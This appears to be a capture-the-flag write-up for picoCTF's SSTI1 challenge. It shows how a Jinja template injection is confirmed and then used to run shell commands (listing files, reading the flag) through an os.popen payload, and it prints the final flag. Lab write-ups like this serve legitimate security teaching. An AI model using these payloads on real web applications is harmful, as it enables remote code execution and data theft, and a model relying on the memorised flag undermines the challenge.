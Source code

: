 # SSTI1 

https://play.picoctf.org/practice/challenge/492 (SSTI1)

> I made a cool website where you can announce whatever you want! Try it out! 
> I heard templating is a cool and modular way to build web apps! Check out my website

## Steps
1. Given a Web Application Challenge, It's very straight forward looking at the title (SSTI1). However if we have to deduce it from our view, we can check it using Wappalyzer to see what tech stack it was build with. 

![alt text](image.png)

![alt text](image-1.png)

It was build using python and most likely a jinja template. We can try a very generic payload to test it. `{{ 7*7 }}` is our payload and it returns 49
![alt text](image-3.png)

![alt text](image-2.png)

2. Now since we are sure its a Jinja Template, we can use our payload to actually execute what we want to get our objective (flag here). 
> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -a').read() }}`

![alt text](image-4.png)

> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`

![alt text](image-5.png)

and voila, the flag is 
> `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`